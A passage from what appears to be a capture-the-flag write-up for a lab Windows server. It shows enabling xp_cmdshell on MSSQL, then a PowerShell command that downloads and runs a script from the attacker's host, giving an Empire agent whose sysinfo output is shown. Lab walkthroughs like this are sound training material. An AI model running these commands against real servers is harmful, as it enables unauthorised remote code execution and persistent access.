 OK, so we're probably `Sarah`, let's run a `whoami` and find out for sure.

`EXEC xp_cmdshell 'whoami';`

And we get an error. But fear not for there is a way around this: 

```
– To allow advanced options to be changed.
EXEC sp_configure ‘show advanced options’, 1
 — To update the currently configured value for advanced options.
RECONFIGURE
 — To enable the feature.
EXEC sp_configure ‘xp_cmdshell’, 1
 — To update the currently configured value for this feature.
RECONFIGURE
```

Now we can run our `xp_cmdshell` and *FINNALY!* get our shell.

> Edit: It seems like there is something running on the box that resets the changes we make to the database... that isn't going to get annoying.


## Exploitation

OK, so we finally have our way in. 

Now we have to get our Powershell on and get a Reverse Shell on the box so we can actually get something done here. 

First thing we'll try is `Empire`, it should give us a nice persistent shell.

Took some messing around with the quotes and we also found that the `-cmd` command doesn't parse using `xp_cmdshell`, but eventually we got an interactive agent back in `Empire`

```
EXEC xp_cmdshell "powershell.exe -NoP -NonI -Exec Bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/sh.ps1')";
```

Now we can just run commands on the system. 

```
(Empire: KF4YUGAC) > sysinfo
[*] Tasked KF4YUGAC to run TASK_SYSINFO
[*] Agent KF4YUGAC tasked with task ID 2
(Empire: KF4YUGAC) > sysinfo: 0|http://10.10.14.3:443|TALLY|Sarah|TALLY|10.10.10.59|Microsoft Windows Server 2016 Standard|False|powershell|7532|powershell|5                   
[*] Agent KF4YUGAC returned results.
Listener:         http://10.10.14.3:443
Internal IP:    10.10.10.59
Username:         TALLY\Sarah
Hostname:       TALLY
OS:               Microsoft Windows Server 2016 Standard
High Integrity:   0
Process Name:     powershell
Process ID:       7532
Language:         powershell
Language Version: 5
```
